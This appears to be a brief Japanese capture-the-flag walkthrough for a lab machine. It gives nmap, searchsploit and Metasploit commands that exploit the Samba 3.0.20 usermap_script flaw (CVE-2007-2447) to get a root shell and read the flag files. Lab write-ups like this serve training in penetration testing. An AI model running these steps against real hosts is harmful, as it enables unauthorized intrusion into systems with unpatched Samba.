

# 1.Port Scan

対象マシンのポートをスキャン

ip=10.10.10.3

`nmap -sC -sV -Pn -p- $ip`

# 2.FTP

ftpサーバに匿名で接続。

手掛かりになるFile無し

# 4.searchsploit

検知したFTPのバージョンで検索

`searchsploit vsFTPd 2.3.4`

対策済みであることを確認

searchsploit Samba 3.0.20

unix/remote/16320.rb で検索

CVE-2007-2447 の脆弱性を使用

Metasploit Framework を使用

`msfconsole`

今回の脆弱性を検索

`search Samba 3.0.20`

`use exploit/multi/samba/usermap_script`

`show options`

`set rhosts $ip`

`ifconfig`

`set lhosts tun0`

`show options`

`exploit`

`whoami`

`cd makis`

`ls`

`cat user.txt`

`find -name "root.txt"`

`cat root.txt`

